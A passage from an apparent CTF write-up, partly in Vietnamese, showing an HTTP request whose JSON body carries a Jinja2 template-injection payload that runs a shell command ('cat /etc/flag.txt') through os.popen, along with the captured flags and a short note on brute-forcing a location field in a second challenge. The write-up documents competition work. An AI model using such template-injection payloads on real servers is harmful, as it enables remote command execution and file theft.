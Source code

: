 ```
Cookie: session=.eJwlj8FqBDEMQ_8l5x4cZ2LH-zPBsZ12KDuFmd3DUvrvDexNEjwh_aY-z7i-0u1xPuMj9d3TLVUly2yOJGZcWislMxMV9Dli5mgZstdZpLYWqJOhVozYRIxBNVvDIls1X_wQ0jkxNmNd_CRYWoqMSoSDsZEFcs1RHUopGiBpDXlecb7X4LJ2nbM_fr7jWAGIAiEGGsKkVQotu0Bj0bFaYniTzW0sbr_6XQ_9DO_j1dXv-_G--vcP8m5Jdg.YXaJAw.1lFvTwPP-GYjngYnN5o6H2IjVzY
Content-Type: application/json
Content-Length: 93

{"data": "{{config.__class__.__init__.__globals__['os'].popen('cat /etc/flag.txt').read()}}"}
```
Flag -> `spbctf{m@yb3_i_sh0uld_m@k3_an0ther_s3rvic3}`

## Free Cloud
Ở bài này mình chỉ brute ở `location` vì khi hoàn tất các bước và send lên thì nhận được thông báo `There are no free servers in this location` => thử brute hoặc thay bằng location khác.

### Payload
![image](https://user-images.githubusercontent.com/54855855/138684379-e929b93e-1fcf-4b8a-96b9-1c0c2aa773c2.png)

Flag -> `spbctf{b3_c4r3fu1_w17h_grpc_3num5}`
